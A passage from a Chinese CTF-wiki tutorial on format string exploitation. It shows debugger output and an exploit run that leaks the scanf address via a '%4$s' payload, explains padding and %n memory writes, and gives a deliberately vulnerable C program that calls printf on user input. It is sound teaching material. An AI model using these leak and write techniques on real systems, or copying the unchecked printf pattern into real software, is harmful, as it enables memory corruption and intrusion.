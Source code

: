 ```c++
0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp  ← $eax
0xffbbf8f4│+0x18: "%4$s"
0xffbbf8f8│+0x1c: 0x00000000
```

同时, 在我们运行的`terminal`下, 确实得到了`scanf`的地址.

```bash
➜  leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```

但是, 并不是说所有的偏移机器字长的整数倍, 可以让我们直接相应参数来获取. 有时候我们需要对我们输入的格式化字符串进行填充, 来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处. 一般来说, 类似于下面的这个样子: `[padding][addr]`.

### 覆盖内存
上文中展示了如何利用格式化字符串来泄露栈内存以及任意地址内存, 其实也可以修改栈上变量的值, 甚至修改任意地址变量的内存. 只要变量对应的地址可写, 我们就可以利用格式化字符串来修改其对应的数值. 这里我们可以想一下格式化字符串中的类型:

```text
%n: 不输出字符, 但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量.
```

示例代码如下:

```c++
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```
